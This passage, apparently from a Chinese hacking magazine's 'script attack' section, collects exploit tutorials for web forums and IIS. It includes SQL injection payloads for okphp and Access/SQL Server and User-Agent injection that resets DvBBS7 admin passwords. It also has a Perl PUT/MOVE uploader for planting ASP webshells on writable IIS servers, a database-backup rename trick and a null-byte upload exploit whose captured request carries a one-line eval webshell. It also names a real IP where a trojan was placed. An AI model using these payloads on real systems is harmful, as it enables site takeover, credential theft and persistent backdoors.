看，只简单地用 `get_r($arr)` 判断提交的参数，我们只要提交相应的 `$del_log,$log_id,$del_id`，就会成功删除日志记录了。

### 4. 多个文件对变量没有过滤导致 SQL 注射漏洞

okphp 的作者好像都不喜欢过滤。基本上所有的 SQL 语句中的变量都是“赤裸裸”的。这里以 `forums/list_threads.php` 为例简单说一下。看 list_threads.php 的代码：

```php
$q = "select name,belong_id,moderator,protect,view,type,class,theme,id,topic_num,faq_num,cream_num,recovery_num,post_num from $type_table where id='$forum_id'";
$res = sql_query($q,$conn);
$row = sql_fetch_row($res);
```

变量 `$forum_id` 没有过滤，因为 MySQL 不支持子查询，我们可以利用 `union` 构造语句进行联合查询（要求 MySQL 4.00 以上）实现跨库操作。构造 A：利用 `SELECT ... INTO OUTFILE '/path/file.txt'` 把结果写入文件，再通过 `http://ip/path/file.txt` 查看。

```php
$q = "select ... from $type_table where id='$forum_id' union select * from user_table into outfile '/path/file.txt'";
```

上面的方法要求比较苛刻，必须得到 Web 路径，而且在 PHP 的 `magic_gpc=on` 选项下注入中不能出现单引号。构造 B：像 ASP 跨库查询一样，直接利用 union select，使返回结果不同来猜解，这种方法可绕过单引号（magic_gpc=on）继续注射。

## 5. admin/login.php 和 users/login.php 猜解指定用户密码 hash 漏洞

其实这个和漏洞 1 和 2 是同一个，这里单独拿出来，主要说明语句构造的方法。

```sql
$username=admin' AND LENGTH(password)=6#
```

SQL 语句变成：

```php
$q = "select id,group_id from $user_table where username='admin' AND LENGTH(password)=6#' and password='$password'";
```

相当于：`select id,group_id from $user_table where username='admin' AND LENGTH(password)=6`。如果条件成立则正常返回，不成立 MySQL 报错。这样就可以猜解用户 admin 的密码 hash；如 `username=admin' ord(substring(password,1,1))=57#` 可猜第一位 ASCII。

这篇文章是在网吧看代码写出来的，只是粗略地看了下代码，文章所提到的“漏洞”都没有经过测试。可能有的漏洞根本就不存在，也可能漏掉了不少东西。这些都不是很重要，因为本文的目的是 PHP+MySQL 注射时的语句构造，希望对大家的学习有所帮助。

通过本文可以看出，虽然 PHP 看起来要比 ASP 安全，不过一旦变量没有过滤完全，PHP 的注射要比 ASP 注射更灵活，注射方法也更多。由于作者水平等原因，可能文章还有不少错误，请高手多多指点。

## 脚本攻击 / SCRIPT ATTACK

| 项目 | 内容 |
|---|---|
| 适合读者 | 脚本入侵爱好者、脚本编写人群 |
| 前置知识 | 动网 for SQL 版本基本数据库结构、脚本漏洞分析能力 |
| 难度等级 | 中 |

## 将 DvBBS7 送进地狱

文/图 firstsee

**脚本小子：** firstsee 的《把 DVBBS7.0 拉下马》一文发表后，很多喜欢脚本入侵的朋友都给我们发来邮件，询问这个漏洞很难利用，如何将它比较好地运用于实际的入侵中呢？当然是有办法的……本文的漏洞不但能加自己为斑竹，还能直接更改前、后台的管理员密码。

前一段时间动网论坛的头像上传漏洞给各大使用 DvBBS 的网站带来难以愈合的创伤，这个漏洞甚至危及到了 SP2 的版本。为了解决这个问题，估计沙滩小子也耗费了不少心血吧？但是动网论坛至此就真的安全了吗？答案是否定的，在 HTTP_USER_AGENT 变量上面又出现了新的漏洞！

```asp
If Left(Agent,7)="Mozilla" Then
  Agent=Split(Agent,";")
  If InStr(Agent(1),"MSIE")>0 Then
    Browser="Microsoft Internet Explorer"
    version=Trim(Left(Replace(Agent(1),"MSIE",""),6))
  ElseIf InStr(Agent(4),"Netscape")>0 Then
    Browser="Netscape"
    tmpstr=Split(Agent(4),"/")
    version=tmpstr(UBound(tmpstr))
  ElseIf InStr(Agent(4),"rv")>0 Then
    Browser="Mozilla"
    ...
  End If
End If
```

| 项目 | 内容 |
|---|---|
| 漏洞文件 | inc\Dv_ClsMain.asp |
| 测试环境 | DvBBS7.0.0+MSSQL / DvBBS7.0.0+SP1+MSSQL / DvBBS7.0.0+SP2+MSSQL |
| 服务器 OS | Windows 2000 Advanced Server |

### 发现漏洞

N.E.V.E.R 曾经发布了 DvBBS6.x 中关于 HTTP_USER_AGENT 变量过滤不严所造成的注入漏洞……这个漏洞仍然存在在 DvBBS7 中，只要经过巧妙构造就可以实现对 MSSQL 数据库的动网论坛注入。先看出现漏洞的代码。

这两段代码是 Class_Cls_Browser 的一部分，用来判断用户的浏览器类型及版本。然而在代码中都存在相同问题，即当 Agent(4) 的值中包含 Netscape 时不会经过任何过滤，直接将字符串的值返回给 version 变量。

```asp
Agent=Request.ServerVariables("HTTP_USER_AGENT")
Agent=Split(Agent,";")
If InStr(Agent(1),"MSIE")>0 Then
  Browser="Microsoft Internet Explorer"
  version=...
ElseIf InStr(Agent(4),"Netscape")>0 Then
  Browser="Netscape"
  tmpstr=Split(Agent(4),"/")
  version=tmpstr(UBound(tmpstr))
End If
...
Agent="Opera/7.23 (X11; Linux i686; U) ..."
```

在这个文件中的 UserActiveOnline 函数中（动网的 3 个版本函数内容相同）的部分代码为：

```asp
Dim StatUserID
StatUserID = Session(CacheName & "UserID")(0)
SQL = "Select ID,Boardid From [Dv_Online] Where ID='" & CCur(StatUserID)
Set Rs = Execute(SQL)
If Rs.Eof And Rs.Bof Then
  ...
Set BrowserType=new Cls_Browser
SQL = "Insert Into [Dv_Online](ID,Username,Userclass,Ip,Startime,Lastime,bk,Boardid,Browser,Stats...)"
```

```asp
Usergroupid, Accome, Userhidden) Values (... BrowserType.platform ... BrowserType.version ... Execute(SQL) ... End If ...
```

很显然从 BrowserType 取得 version 的值以后也没有经过过滤就直接插入了 SQL 变量的语句中，并调用 Execute 函数执行数据库查询。

```asp
If InStr(LCase(Command), "dv_admin")>0 ...
Command=Replace(LCase(Command), "dv_admin", "dv<" & Chr(95) & "/>admin")
End If
```

看出来了吧，只要我们的语句中没有 dv_admin 关键字就可以顺利通过了。虽然已经把思路打通了，但是由于论坛中的防刷新机制存在，利用仍有难度。

### 测试分页

以 SP1 中的 Dv_ClsMain.asp 文件为例，在 ActiveOnline 函数中第 687 行：

```asp
If DateDiff("s", ReflashPageLastTime, Now())<=120 And LastVisiBoardID<>BoardID Then Exit Sub
```

这是防刷新机制的关键语句，初步测试时先注释掉，再用抓包查看访问 index.asp 时的 MIME 数据。

```http
GET /index.asp HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 ...
Host: www.somesite.com
Connection: Keep-Alive
Cookie: Dvnewpubtemp=...; ASPSESSIONID=...
```

其中的 User-Agent 值对应代码中 `Request.ServerVariables("HTTP_USER_AGENT")`，因此只要将 User-Agent 构造为 SQL 语句即可实现对数据库的任意修改。

```text
Mozilla/4.0 ... update Dv_User set UserPassword='123' where UserGroupID=1 ...
```

然后用 NC 发送，测试后数据库中的前台管理员密码已被改为 123，同时在 Dv_Online 表中记录了一条构造后的访问数据。

NC 运行结束后再查看数据库，发现注入记录与预期一致，由此可见通过构造 User-Agent 的值进行注入是可行的。

### 解决防刷新问题

将防刷新语句恢复后，会遇到访问记录导致注入语句不执行的问题，需要等待约 20 分钟或清理超时访问记录后再进行下一次注入。

很痛苦的事：我们可以在修改数据库的同时将 Dv_Online 表记录全部删除，这样就能连续注入。调整后的 User-Agent 值如下：

```text
Mozilla/4.0 (compatible;MM,MM,'hacker',7,1,2) update Dv_User set UserPassword='123' where UserGroupID=1; delete from Dv_online--Netscape
```

不信可测试：无论注入前数据库里有多少用户访问记录，只要欺骗成功，不仅前台管理员密码会被修改，用户访问记录也会被清空。若数据库用户权限不足怎么办？继续看下文。

### 突破 Execute 向后台进军

由于在 Execute 函数中过滤了 Dv_admin 关键字，SQL 查询时要避免其直接出现，但又不能放弃对 Dv_admin 表注入。受《SQL Injection White Paper》启发，使用 exec 函数可解决。将 User-Agent 修改为：

```text
Mozilla/4.0 (compatible;MM,MM,'hacker',7,1,2) declare @a varchar(255); select @a='update Dv_'+ 'admin set username=''firstsee'',password=''123''' ; exec(@a)--Netscape
```

这样可把 Dv_admin 中记录的 username 改为 firstsee，password 改为 123。通过字符串拆分再拼接，可绕过关键字过滤并构造完整查询语句，在 exec 执行后达到与直接查询相同效果。受 MSSQL 中 exec 使用权限限制，该方法需在具备相应权限时才可生效。

### 总结

如果把前台与后台管理员密码修改语句合并，只需一次注入即可；但测试发现 User-Agent 值过长会失败，且 exec 函数受限。为保证成功率，分两句更佳：即使后台修改失败，前台管理员密码修改也不受影响。当前动网论坛通过修改后台管理控制的方法已难以上传木马，但若结合相关脚本漏洞，在足够权限下仍可上传。本文给出 exploit 思路，供研究与修补参考。

| 项目 | 内容 |
|---|---|
| 适合读者 | 脚本爱好者 |
| 前置知识 | 脚本入侵基本功 |
| 难度等级 | 中 |

## 妙用 IIS 写权限做后台门

文/图 黑嘿黑·SuperHei

脚本小子：我们平常用脚本木马做后门时，都是把 ASP 等后门“永久”地存放在主机的 Web 目录下，这样很危险，容易被管理员发现。其实有更好的方法：把目录属性改为可“写入”，一个“触发后门”就诞生了，我们随时都可以上传木马。

提到微软公司的 IIS，很多人会想到“漏洞”：UNICODE、CGI 解析、ida/idq、Printer 等远程溢出，还有 WebDAV 远程溢出等，真所谓“千疮百孔”。不过这些都是 IIS 本身程序漏洞，打补丁可缓解。若是 IIS 设置不当（目录权限、认证方式等）引起的安全问题，危害更大且常被忽视。本文以 IIS 的“写入”权限进行分析。

### 分析

现在让我们看看 IIS 的一些设置。在 IIS 服务管理器中，选择一个目录查看属性。目录属性中有这些选项（日志访问和索引此资源不计）：

- 脚本资源访问：对网站脚本可读取原文件。
- 读取：读取目录中的静态资源。
- 写入：用户可建立及删除资源。
- 目录浏览：用户可浏览目录内容。

应用程序执行许可：

- 无：只能访问静态页面。
- 纯脚本：只允许脚本（如 ASP）。
- 脚本和可执行程序：可访问并执行各种文件类型。

我们这里就对“写入”权限进行分析。首先看 IIS 是这样“写入”的：用 Telnet 或用 NC 连接到服务器的 Web 端口（80）并发送一个如下请求：

```http
PUT /Scripts/my_file.txt HTTP/1.1
Host: iis-server
Content-Length: 10
```

这时服务器会返回一个 100（继续）信息：

```http
HTTP/1.1 100 Continue
Server: Microsoft-IIS/5.0
Date: Thu, 06 May 2004 10:20:20 GMT
```

接着，我们输入 10 个字母：

```text
AAAAAAAAAA
```

送出这个请求后，看服务器的返回信息，如果是一个 201 Created 响应：

```http
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Date: Thu, 06 May 2004 10:20:45 GMT
Content-Length: 0
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, LOCK, UNLOCK
```

这样我们就在 Web 的 Scripts 目录下写入文件 my_file.txt，内容为“AAAAAAAAAA”，如图 1 所示。

这里简单说明一下：

```http
PUT /dir/my_file.txt HTTP/1.1
Host: iis-server
Content-Length: 10
```

PUT：请求服务器将附带的实体储存在提供的请求 URL 处，如果该请求 URL 指向的资源已经存在，则附带实体应被看做是当前原始服务器上资源的修改版本。如果请求 URL 没有指向现存的资源，该 URL 将被该请求的用户代理定义为一个新的资源，原始服务器将用该 URL 产生这个资源。

Host：是 HTTP 请求的发送地址。

Content-Length：是内容长度，也就是实体长度，该长度值和上传的文件大小一致。

用 NC（telnet）提交数据很烦琐，我们在这里写个简单的 Perl 程序来完成这个复杂的提交过程，在写代码时用 `binmode()` 方式打开文件，代码如下：

```perl
#!/usr/bin/perl
use IO::Socket;
$ARGC = @ARGV;
if ($ARGC != 4) {
  print "usage:$0 127.0.0.1 80 kaka.exe /Scripts/file.exe\n";
  exit;
}
$host = @ARGV[0];
$port = @ARGV[1];
$file = @ARGV[2];
$path = @ARGV[3];
@s = stat($file);
$size = $s[7];
print "file size is $size bytes\n";
my $sock = IO::Socket::INET->new(Proto => 'tcp', PeerAddr => $host, PeerPort => $port) || die;
print $sock "PUT $path HTTP/1.1\n";
print $sock "Host: $host\n";
print $sock "Content-Length: $size\n\n";
open(FILE,$file);
binmode(FILE);
while (read(FILE,$char,1024)) {
  print $sock "$char";
}
print $sock "\r\n";
@ret = <$sock>;
print "please wait...\n";
sleep(0);
if ($ret[4]=~/200|201/) {
  print "upfile Succeed!!!";
} else {
  print "upfile fail!!!\n\n";
  print @ret;
}
close $sock;
close FILE;
```

下面我们测试效果如何：

这里我们把 kaka.txt 成功上传到了 Web 目录 Scripts 下，因为程序中用了 `binmode()` 方式（二进制）打开文件，应## 脚本攻击（SCRIPT ATTACK）

这可以上传其他文件，我们先测试下 exe 文件。这样我们就可以结合 PUT 和 MOVE 来完成通过 IIS 写入文件了，我们还是用 Perl 来完成，测试写 ASP 成功。


成功！可以上传 exe 了，是不是可以上传任意文件呢？接着来测试 ASP 文件：

最终的 iiswrite.pl 代码如下（代码写得不是很好看，见笑了）：


```perl
#!/usr/bin/perl
# The iiswrite Script

use IO::Socket;
$ARGC = @ARGV;
print "*" x 60;
print "\ncodz by :> SuperHei<QQ:123230273> && lanker<QQ:18779569>\n";
print "*" x 60, "\n";
if ($ARGC != 4)
{
    print "usage:$0 127.0.0.1 80 kaka.txt /scripts/my_file.txt\n";
    exit;
}
$host = @ARGV[0];
$port = @ARGV[1];
$path = @ARGV[3];
$file = @ARGV[2];

@path=split(/\//,$path);
$any = pop(@path);
$path1=join('/',@path);
@s=stat("$file");
$size = $s[7];

print "$file size is $size bytes\n";
my $sock = IO::Socket::INET->new(Proto =>"tcp",
    PeerAddr =>$host,
    PeerPort =>$port) || die "Sorry! Could not connect to $host\n";
print $sock "PUT $path1/lanker.txt HTTP/1.1\n";
print $sock "Host: $host\n";
print $sock "Content-Length: $size\n\n";
open(FILE, "$file") || die "Can't open $file";
binmode(FILE);
while (read(FILE,$char,1024)) {
    print $sock "$char";
}
print $sock "\r\n";
@req = <$sock>;
print "please wait...\n";

sleep(2);
if ($req[4]=~/200|201/) {
    print "upfile Succeed!!!\n";
} else {
    print "upfile faile!!!\n";
    print "The IIS can't acc_write";
}
close $sock;
close FILE;

my $sock = IO::Socket::INET->new(Proto => 'tcp',
    PeerAddr => $host,
    PeerPort => $port) || die "Sorry! Could not connect to $host\n";

print $sock "MOVE $path /lanker.txt HTTP/1.0\n";
print $sock "Host: $host\n";
print $sock "Destination: http://$host:$port$path\n\n\n";

@req=<$sock>;
if ($req[0]=~/20\d+/) {
    print "Modifyfile Succeed!!!";
} else {
    print "upfile faile!!!";
}
close $sock;
```

失败！提示 HTTP/1.1 403 Forbidden 错误，看来直接用 POST 方式写 ASP 不行。经过测试只要是 IIS 支持的文件类型都会产生 HTTP/1.1 403 Forbidden 错误。

那我们怎样才可以上传 IIS 支持的文件类型文件呢？IIS 除了可以执行 PUT、POST、GET 等动作外，还可以执行 COPY、MOVE 等命令。呵呵！我们可以先把本地 ASP 上传到远程主机 Web 目录下的 txt 等其他文件，再通过 COPY、MOVE 命令来改为 ASP。我们还是先用 NC 提交测试一下：


成功利用 MOVE 把 `/scripts/kaka.txt` 改名为 `/scripts/kaka.asp`。

通过实践我们得知主机 222.241.**.43 的 Scripts 目录可以写，我们运行上面的程序上传海洋新出的 ASP 木马 2004.asp，如图2所示。


图2

哈哈！写入成功，直接访问 http://222.241.64.43/scripts/2004.asp，输入密码就可以看到 ASP 木马界面了。

- 2. 留后门

利用这样的特性，我们只需要将某个路径改成可写入的，然后直接利用这样的程序就可以留后门了，这可比直接放 ASP 后门强很多哦！

## Try to use it !

- 1. 上传 web 木马

假如我们已经知道某主机 IIS 可写，我们就可以远程写入任意文件，包括 ASP 等，这样我们就能上传一个脚本木马上去（如海洋2004），可直接危及到主机安全。

### 防范

所谓“安全是一个整体”，管理员配置和维护服务器时要细心，要重视每个细节。因为一个小小的细节都可能使你的服务器被攻破，本文就是一个例子。防范的方法请看《让 WebShell 见鬼去》一文。

## 简单分析 SQL 注入中的汉字猜解

文／郭子强

对于经常玩 SQL Injection 的朋友来说，字符的猜测是一样很“艺术”的事情，特别是中文字符的探测。本文介绍在 SQL Server 中进行汉字相关猜解的思路与方法。


### SQL Server 中的汉字猜解

在 SQL Server 中，中文的 ASCII 为正数，但由于是 Unicode 的双位编码，不能用函数 ascii() 取得 ASCII 码；必须用函数 unicode() 返回 Unicode 值，再用 nchar 函数取得对应的中文字符。

在探测出 SQL Server 中汉字的 Unicode 编码后，如何知道相应的汉字呢？用工具！我现在还没有找到。不过经过研究，我找到了 3 种解决办法。

- 1. 在注入地址后添加 `and nchar(猜解汉字的unicode编码)>0`，例如 `http://www.xxx.com/id=1 and nchar(20013)`。由于 nchar() 函数返回值类型为 nvarchar，拿一个 nvarchar 的值跟 int 的 0 比较，系统会先试图将 nvarchar 的值转成 int 型。

SQL Server 的出错提示是这样的：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'  
> [Microsoft][ODBC SQL Server Driver][SQL Server] 将 nvarchar 值 '中' 转换为数据类型为 int 的列时发生语法错误。

呵呵，正是我们想知道的信息。这样，我们就可以知道相应的汉字了。

- 2. 使用 SQL Server。所谓“解铃还需系铃人”，可能就是这个道理吧。通过 SQL Server 的查询分析器，或者企业管理器，我们构造查询条件 `select nchar(20013)`，执行查询操作，看到查询结果了吗？
- 3. 使用字符对照表。这是本文的重点，也是 SQL Server 自动注入中必须解决的一个重要课题。

我们知道，任意一个汉字的 Unicode 编码是唯一的，其 GB18030 码也是唯一的……只要清楚同一个汉字有唯一的 Unicode 编码，其对应的 GB18030 码也是唯一的就可以了。也就是说，知道了一个汉字的 Unicode 编码，可以唯一对应一个 GB18030 码，通过 GB18030 码，现在我们就可以查找出原来的汉字了。

关于 Unicode 与 GB18030 对应码表，你可以在 `http://www.uighurlinux.org/download.htm` 下载。这个 Unicode 与 GB18030 对应码表是十六进制的，而且也没有相应的中文字符，不过我们能把 GB18030 转化成为中文字符。

下面我们的任务就是把这个 Unicode 与 GB18030 对应码表为我所用，转换成为 Unicode--GB18030--汉字对应表……

```vb
Function Get_Field_Name(Url,Flen)
    dim conn, i, rs, ch, SQL, result, char
    result=""
    set conn=GetConnection(server, MapPath("UnicodeMap.mdb"),"")
    ' 打开对照表数据库连接
    For i=1 To Flen
        ch=GetChar(Replace(Url,"[POS]",i))
        ...
End Function
```

```vb
0,65535,0)
SQL="select chr from GB18030 where DU=" & ch
' 查询注入时获取的unicode码编号
set rs=get_rs(conn,SQL,1)
if rs.recordcount=1 then
    char=rs(0)
else
    response.write "没有相应的字符"
    response.end
end if
result=result&char
rs.close
set rs=nothing
Next
conn.close
set conn=nothing
Get_Field_Name=result
end Function
```

补充一点，对于 SQL Server 中汉字的 Unicode 编码的获取，在我的 SQL Server 数据信息自动探测一文中已经介绍得非常清楚了。16 次，只经过 16 次判断，我们就可以确定任何一个汉字的 Unicode 编码。

### Access 中汉字猜解

对于 Access，其字符处理函数与 SQL Server 中不一样，见下表。

在猜测汉字时，我们也可以用 `GetFieldValue(Url,TableName,FieldName,PrimaryKey,PKValue,minlen,maxlen)` 函数调用，不过有几点需要注意：

```vb
CheckFieldValue=" and 1=(select count(*) from [TABLE] where [IDN]=[ID] and asc(mid([FN],[POS],1))>[N])"
```

- 1. 查询条件。由于字符处理函数与 SQL Server 中的不同，修改为上面的条件语句。
- 2. ASC 码的取值范围。汉字通过 ASC 函数运算后的取值范围可以适当放宽，包含需猜解汉字即可。
- 3. GetFieldValue 函数中得到 ASC 值后，直接用 `chr()` 函数转化成汉字或字符，不用再调用字符对照表。

| Access | SQL Server | 说明 |
|---|---|---|
| asc(字符) | unicode(字符) | 返回某字符的编码 |
| chr(数字) | nchar(数字) | 与 asc 相反，根据数字编码返回字符 |
| mid(字符串,N,L) | substring(字符串,N,L) | 返回字符串从 N 个字符起长度为 L 的子字符串，即 N 到 N+L 之间的字符串 |

**脚本小子：** 动网论坛可谓是家喻户晓了，版本从 6.X 升级到了 7.0.0，内容上也做了不小的改进，在论坛安全性上更是越来越好。虽然前段时间的 upfile.asp 漏洞闹得风风雨雨，但 DvBBS7 SP2 的补丁可是老早就补了这个漏洞，给传文件的格式加上了双保险！可惜天算不如人算，这样的重重封锁下，还是有办法开启上传后门这道门，这是属于动网程序设计上的缺陷，来一起看看它的问题出在哪里！


### 笑出重围

文/图 羽艺

## 动网7.0 SP2 ASP后门上传新方法

动网真可谓是“洞网”啊，大小漏洞层出不穷！版本从 6.X 升级到了 7.0.0，安全上可谓是重上加重，可惜前不久又出现了 upfile.asp 上传任意文件的重大漏洞，而且在 7.0.0 SP2 以下通杀！那 SP2 上有没有这个漏洞呢？用过臭要饭的写的 upfile.asp 的利用程序的朋友都知道，如果是动网 7 SP2，我们上传的 ASP 程序都会自动被改成 *.jpg 文件，放在 UploadFace 文件夹下，直接访问 url+*.jpg 只会返回你上传的后门的源代码而不会被执行。这给我们什么启示呢？让我们慢慢分析一下。

我们都知道，在 DvBBS6.0 版里，只要拥有后台的登录权限，在某个版面里设置添加“ASP”为上传类型，就能实现上传 ASP 文件的目的。但在 7.0.0 的版本中，这点做了重大改进，无论你是否添加了上传后缀为 ASP 的文件，都会被告知“格式不对，请重新上传”。这可急死我们这一帮脚本爱好者了，好不容易拿到了论坛的完全控制权却因为论坛版本为 7.0.0 而无法上传 ASP 木马去实现进一步入侵。

在一次偶然的机会中，我发现了动网的一个设计缺陷，不敢独享，马上发给了脚本小子（台下丢了个鸡蛋，“快切正文！”），大家容我先做个小小的介绍：本人前段时间迷上了 MU 私服，就在某个 MU 服务器上落脚了，注册了个帐号痛快地玩了几天。可今天在他主页网站的论坛上闲逛，才发现是动网 7.0.0 的，还写着 SP2，马上想到用 upfile.asp 上传任意文件这一漏洞试试！

在网上看了相关文章还没机会实践一下呢，来，手工测试一下：捕获数据，修改数据，再次提交……哇？！竟然不行，显示我操作失败！再换公布了的 EXE 程序测试，还是显示漏洞已经被补上了。小样的，还真行啊！随手在地址栏上打入默认数据库地址，不是吧？竟然能下载，兴奋ing！打开数据库后发现管理员密码前台和后台都是一样的 MD5 值，爽！拿起破解工具开始跑，漫长的时光过去后密码出来了。登录后台！登录后还是习惯去添加上传类型，然后预料之中的“上传失败”，这可怎么办？好不容易拿到的论坛完全控制权就这样被上传类型挡在了门外。

哎，谁让我可怜碰上这样的情况呢？我只能在后台闲逛了。看看基本设置，看着上传头像管理……唉，没希望了。随手点了“系统空间占用”，不知道是鼠标移动速度太快，还是老天帮我，我竟然点成了“备份数据库”，那里有默认数据库路径，还有备份后的数据库名和后缀 *.mdb！耶？！后缀？不知道是哪来的灵感，如果我们把 ASP 木马后缀先改成 JPG 上传，再将默认数据库的路径和文件名改成刚刚上传得到的图片相对路径和文件名，然后再将下面备份的文件名 dvbbs7.MDB 改成 dvbbs7.ASP，那不就等于把原先上传后缀为 JPG 的 ASP 木马复制到“备份数据库目录”并改名，把它变成了一个真正的 ASP 木马文件了吗？想到这，我不禁倒吸了一口冷气！这么危险的设计缺陷，可以复制并修改任何文件的后缀！太！

说干就干！大家看看我截的图，如图1所示。大家看明白了吧？对！就是这样修改的，点击“确定”……


定后图片文件就被复制到“Databackup\yuyi.ASP”去了，如图2所示。


同样的方法，在“恢复数据库”这一页面里也能实现这一操作！注意，这些操作服务器必须要有 FSO 的支持才能实现！最后在地址栏打入备份后的 ASP 文件路径！哈哈哈，那个熟悉的 ASP 木马界面出现了！给点掌声，谢谢！这一步完成后，我就借助 ASP 木马的威力拿到了 MU 私服网页程序里的 SQL Server 帐号和密码了！有了这个再用 SQL 登录器一连接……再给点掌声，谢谢！动网 7.0 虽然在安全上做了很大的提高，而且还限制了上传 ASP 文件，但它却忘了备份数据库这个功能也能实现 ASP 文件“上传”的目的，大家赶快试试这个方法吧，效果很好哦！

我重看了这篇文章 N 遍，感觉 Access 中汉字猜测范围总有些不妥，毕竟时间就是生命，这儿多几次，那儿少几次，对于单个字符来说，可能不算什么，可如果猜测的数据量比较大，这就可能对程序执行效率造成很大的影响。经过我对 chr 函数的参数测试后，发现 chr 函数的参数有效范围是 -32768-65535，所以汉字的 ASC 码取值范围 (-32768,0)。经过 16 次猜测运算，便可以知道对应的 ASC 码；如果加上 ASCII 字符，则需要 17 次猜解运算。

本文对 SQL 自动注入中的汉字问题，提出了自己的一点看法和主张。如果有什么不妥的地方，希望大家批评指正。

## 木蚂论坛惊爆 Upfile 严重漏洞


文／勇哥

前一阵动网的 Upfile.asp 文件漏洞真可谓影响深远。把空格（ASC 为 20H）改成为空（ASC 为 00H），也就是字符串结束符“\0”来欺骗计算机，这种提交数据的方式使我深受启发，由此才有此文“齐客6.0的 Upload.asp 漏洞”。

### 漏洞危害

- 1. 用户可以随意建目录。
- 2. 用户可以上传任意后缀名的文件。

下面先来看一下在 Upload.asp 文件中存在的如下代码：

```vb
if not MyFso.folderExists(up_path) then
    set up_path=MyFso.CreateFolder(up_path)
end if
```

如果上传目录不存在，会自动创建，这样我们就可以随便建目录了。再看：

```vb
upfile_name=up_name&"."&upfile_name
upfile.SaveAs up_path&upfile_name
```

可见上传后文件名是“upfile_name=up_name&"."&upfile_name”，其中 up_name 由年、月、日和一个随机数组成，如：2004610173526，而“.”后面的 upfile_name 为合法的后缀名，如 GIF。本来这是很正常的改名方式，但是计算机在检测字符串时是看是否碰到“\0”字符，如果是，则认为字符串结束了。也就是说我们在上传文件名时，只要欺骗计算机，把“2004610173526”文件名改成“2004610173526.asp\0”这样的方式，后面一连串的时间字符我们都可以不要了，从而达到直接将文件名保存为我们定义的文件名的目的。原理是枯燥的，实例才最有趣，下面给大家讲一个详细利用这个漏洞入侵某论坛的例子。

### 漏洞利用

首先在百度里搜索关键字“版本 Joekoe V6.0”，然后会出现许多这样的论坛，我们随便挑一个论坛去注册，然后再打开论坛的任意一个版块如“笑话天地”（http://www.******.com/bbs/forum_list.asp?forum_id=9），点击左上角的“发表新帖”按钮（http://www.******.com/bbs/forum_write.asp?forum_id=9），发新帖子。

上面的准备工作做完后，下面我们就可以正式开始挑战这个论坛。需要用到的工具有 WinSock Expert V0.6 beta 1、UltraEdit、NC、ASP，后门请查看光盘“源代码”栏目，按照文章名查找即可。下面我们正式开始。运行 WinSock Expert -> 点“Open Process”按钮 -> 打开 IExplore.exe 进程，选中第二步打开的网页（某某论坛-笑话天地-发表新帖）-> 点“Open”按钮，这样 WinSock Expert 就可以监听刚才打开的网页的一举一动了。我们的目的是想要抓取数据上传的包并做进一步的修改。

然后使用“上传文件”这一功能，浏览上传我们的 ASP 后门。我用的是“冰狐浪子微型 ASP 后门”，成功后再配合“海阳顶端2004”一起发挥作用，效果还不错，大家可以考虑这种配合方式。点击“上传”后，页面会出现“上传失败 文件类型只能为 gif,jpg,bmp,swf,rar,zip 等格式，返回上一页”，不用理会它，现在我们需要的就是这样的信息。赶紧到 WinSock Expert 中提取抓获的有用数据，内容如下：

```http
POST /bbs/upload.asp?action=upfile HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
```

## SCRIPT ATTACK 脚本攻击

```http
Referer: http://www.*****.com/bbs/upload.asp?uppath=forum&upname=&uptext=jk_word
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=---------------------------7d311f101009c
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 5.0; Windows NT 5.0)
Host: www.*****.com
Content-Length: 710
Connection: Keep-Alive
...
Content-Disposition: form-data; name="up_path"

forum
...
Content-Disposition: form-data; name="up_name"

200473153438
...
Content-Disposition: form-data; name="up_text"

jk_word
...
Content-Disposition: form-data; name="file_name"; filename="G:\temp\uploadfile\binghu.asp"
Content-Type: text/html

<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>eval(Request.form(havebug));</SCRIPT>
...
Content-Disposition: form-data; name="submit"

点击上传
---------------------------7d311f101009c--
```

注意，你可以将自己抓的包同我的对比，有些地方是不同的，但大体一样，特别要注意最后的“7d311f101009c”后面有个回车，一定要拷贝下来，因为它会影响“Content-Length”的长度。再打开 UltraEdit，创建一个新文件，把第三步用“WinSock Expert”抓的内容复制进去。看过动网上传漏洞分析的朋友都知道，因为在 Upload.asp 文件中对上传文件的类型做了限制，所以直接上传 ASP 文件是不行的，我们要把“binghu.asp”文件改成“binghu.gif”。这里的 forum 是默认的上传目录，我们可以任意改名，如改成 havebug（Content-Length 对应的数字就多了 2），也可以改成 forum/../../havebug（Content-Length 对应的数字就多了 14），后者是把 havebug 建到 BBS 目录下。

这里需要非常小心，因为多一个字母，Content-Length 的长度就应该增加 1；多一个汉字，长度应加 2。同时，很多网管把这个目录设置成了禁止执行 ASP 文件，可以利用“../../”把地址指向论坛主目录下，总不会有人不让论坛运行吧！

下面是比较细致的工作了，200473153438 是上传的文件名，我们可以改成 Hacker.asp 并在后面加入一个空格，然后再在 UltraEdit 里按 Ctrl+H 进入十六进制编辑，将空格符的 20 改成 00，这样两个长度正好一样都为 12，不用再去改 Content-Length 了。最后保存文件名为 qiaoke.txt。

修改完毕，我们需要将这个数据提交给服务器，这里所用的工具是“瑞士军刀——NC”，请查看“光盘”源代码栏目，按照文章名查找即可。命令格式是：

```bash
nc -w 1 http://www.*****.com 80 < qiaoke.txt
```

很容易就成功了，在 CMD 下你将会看到这样的提示：

```html
<table border=0 height="100%" cellSpacing=0 cellPadding=0><tr><td height="100%"><font class=red>上传成功</font><a href=upload/havebug/hacker.asp>...</a></td></tr></table>
```

简单吧？冰狐狸子微型 ASP 后门就传到服务器上了。现在直接提交你上传的后门路径吧，不出意外的话，你的后门已经在那里等着你咯！

好了，我不是喜欢废话的人，漏洞分析和利用就说到这里，最后和大家说说后门的利用与隐藏，这是很多朋友最近在黑防论坛上经常问的问题。

如果直接利用我上传的冰狐狸子微型 ASP 后门的“磁盘信息”功能，可以找到论坛的绝对路径（物理路径），如：

```text
D:\www\*****.com\bbs\upload\forum
```

